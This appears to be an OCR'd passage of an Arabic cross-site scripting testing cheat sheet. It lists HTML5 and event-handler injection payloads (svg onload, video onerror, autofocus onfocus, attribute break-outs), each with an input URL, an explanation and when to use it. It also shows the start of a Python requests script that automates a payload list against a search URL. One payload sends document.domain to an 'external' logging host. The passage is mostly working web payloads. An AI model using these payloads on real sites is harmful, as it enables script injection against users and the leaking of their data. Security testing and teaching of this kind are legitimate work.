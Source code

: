   - **متى يُستخدم؟**: لتأكيد التنفيذ بتغيير بصري.
- **الحقن**: `<video poster=x onerror=new Image().src='http://localhost/log?c='+document.domain>`
  - **الإدخال**: `https://example.com/search?query=<video poster=x onerror=new Image().src='http://localhost/log?c='+document.domain>`
  - **كيف يعمل**: يرسل النطاق إلى خادم خارجي.
  - **متى يُستخدم؟**: لتأكيد التنفيذ مع إرسال بيانات.

#### هـ. اختبار سياقات الإدخال
{ #XSS--ALL--Event--Payload / #XSS_Idea_for_SVG_tag / #Inline_HTML_Injection   }
اختبار الحقن في سياقات محددة (مثل السمات أو العناصر الداخلية).
- **الحقن**: `"><svg onload=alert('XSS')>`
  - **الإدخال**: أدخل في حقل نموذج: `"><svg onload=alert('XSS')>`
  - **كيف يعمل**: يخرج من سمة HTML ويُنفذ الشيفرة عند تحميل SVG.
  - **متى يُستخدم؟**: عند اختبار الخروج من السمات.
- **الحقن**: `onload=alert(1)`
  - **الإدخال**: أدخل في حقل يُستخدم كسمة: `onload=alert(1)`
  - **كيف يعمل**: يُنفذ التنبيه كسمة حدث.
  - **متى يُستخدم؟**: في سياقات السمات.
- **الحقن**: `" autofocus onfocus=alert(1)//`
  - **الإدخال**: أدخل في حقل إدخال: `" autofocus onfocus=alert(1)//`
  - **كيف يعمل**: يخرج من قيمة إدخال ويُنفذ عند التركيز.
  - **متى يُستخدم؟**: في حقول النماذج.
- **الحقن**: `<svg><script>alert('XSS')</script></svg>`
  - **الإدخال**: أدخل في حقل: `<svg><script>alert('XSS')</script></svg>`
  - **كيف يعمل**: يُنفذ الشيفرة داخل وسم SVG.
  - **متى يُستخدم؟**: لاختبار الوسوم الداخلية.

### 2. الحقن للأتمتة
تُستخدم هذه الحقن مع سكربتات (مثل Python مع مكتبة `requests`) لأتمتة اختبار مجموعة من الحقن المعتمدة على HTML5 والأحداث وتحليل الاستجابات.

#### أ. إعداد قائمة الحقن
- **المحاولات**:
  - إنشاء قائمة بالحقن المعتمدة على HTML5 والأحداث.
  - مثال قائمة:
    ```
    <svg onload=alert('XSS')>
    <video poster=x onerror=alert(1)>
    <div onclick=alert('XSS')>اضغط هنا</div>
    <input autofocus onfocus=alert(1)>
    <audio src=x onerror=console.log('XSS')>
    <details open ontoggle=alert('XSS')>
    ```
- **كيف يعمل**:
  - يتم إرسال كل حقنة عبر طلب HTTP (GET أو POST).
  - يتم تحليل الاستجابة (مثل رمز الحالة، طول الصفحة، أو نص معين) لتأكيد النجاح.
- **متى يُستخدم؟**:
  - عند اختبار نقاط إدخال متعددة بسرعة.

#### ب. سكربت أتمتة بسيط
- **السكربت** (مثال بلغة Python):
  ```python
  import requests

  url = "https://example.com/search?query="
  payloads = [
      "<svg onload=alert('XSS')>",
      "<video poster=x onerror=alert(1)>",
      "<div onclick=alert('XSS')>اضغط هنا</div>",
      "<input autofocus onfocus=alert(1)>",
      "<audio src=x onerror=console.log('XSS')>",
      "<details open ontoggle=alert('XSS')>"
  ]

  ```